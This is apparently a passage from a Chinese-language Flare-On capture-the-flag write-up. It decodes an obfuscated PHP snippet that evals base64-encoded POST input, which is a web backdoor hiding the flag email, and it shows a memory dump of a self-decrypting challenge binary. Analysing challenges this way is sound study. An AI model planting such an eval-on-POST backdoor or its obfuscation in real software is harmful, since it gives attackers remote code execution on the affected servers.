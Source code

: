 将 `$do_me` 输出并格式化:

```
$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';
$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval($___($__));

```

OK, 解析 `$___` 和 `$__`:

```
$___ = "base64_decode"
$__ = "$code=base64_decode($_);eval($code);"

```

按照要求将变量 `$_` 按照 BASE64 解码:

```
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }

```

字符串 `\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D`为: a11DOTthatDOTjava5crapATflareDASHonDOTcom

替换大写字母:

```
a11.that.java5crap@flare-on.com 
```

注意: 是 `a11` (数字 11) 而不是 `all`.

* * *

## 第三题

这个就是传说中的混淆/免杀/反逆向??? 这个程序在 IDA 中只能看到一个长长的赋值/重写程序的代码. 拖到 OD 中, 发现程序在运行时不断的解密/重写程序, 最终在内存中生成邮箱地址并弹窗.

```
0012FD21  42 72 6F 6B 65 6E 42 79 74 65 00 E6 FE 12 00 61  BrokenByte.纩.a
0012FD31  61 61 61 61 61 6E 64 20 69 27 6D 20 73 70 65 6E  aaaaand i'm spen
0012FD41  74 00 00 7C FE 12 00 6F 6D 67 20 69 73 20 69 74  t..|?.omg is it
0012FD51  20 61 6C 6D 6F 73 74 20 6F 76 65 72 3F 21 3F 29   almost over?!?)
0012FD61  FE 12 00 C6 FD 12 00 6E 6F 70 61 73 61 75 72 75  ?.讫.nopasauru
0012FD71  73 00 00 84 FD 12 00 9D 24 40 00 90 B2 23 E8 00  s..匌.?@.惒#?
0012FD81  00 00 00 8B 34 24 83 C6 1C B9 DF 01 00 00 83 F9  ...?$兤惯..凒

0012FD91  00 74 07 80 36 66 46 49 EB F4 E9 10 00 00 00 61  .t€6fFI 媵?...a
0012FDA1  6E 64 20 73 6F 20 69 74 20 62 65 67 69 6E 73 68  nd so it beginsh
0012FDB1  75 73 00 00 68 73 61 75 72 68 6E 6F 70 61 89 E3  us..hsaurhnopa 夈
0012FDC1  E8 00 00 00 00 8B 34 24 83 C6 2D 89 F1 81 C1 8C  ?...?$兤-夞伭

0012FDD1  01 00 00 89 D8 83 C0 0A 39 D8 75 05 89 E3 83 C3  ..壺兝.9 豼夈兠
0012FDE1  04 39 CE 74 08 8A 13 30 16 43 46 EB EB E9 31 00  9 蝨?0CF 腚?.
0012FDF1  00 00 67 65 74 20 72 65 61 64 79 20 74 6F 20 67  ..get ready to g
0012FE01  65 74 20 6E 6F 70 27 65 64 20 73 6F 20 64 61 6D  et nop'ed so dam
0012FE11  6E 20 68 61 72 64 20 69 6E 20 74 68 65 20 70 61  n hard in the pa
0012FE21  69 6E 74 E8 00 00 00 00 8B 34 24 83 C6 1E B9 38  int?...?$兤?

```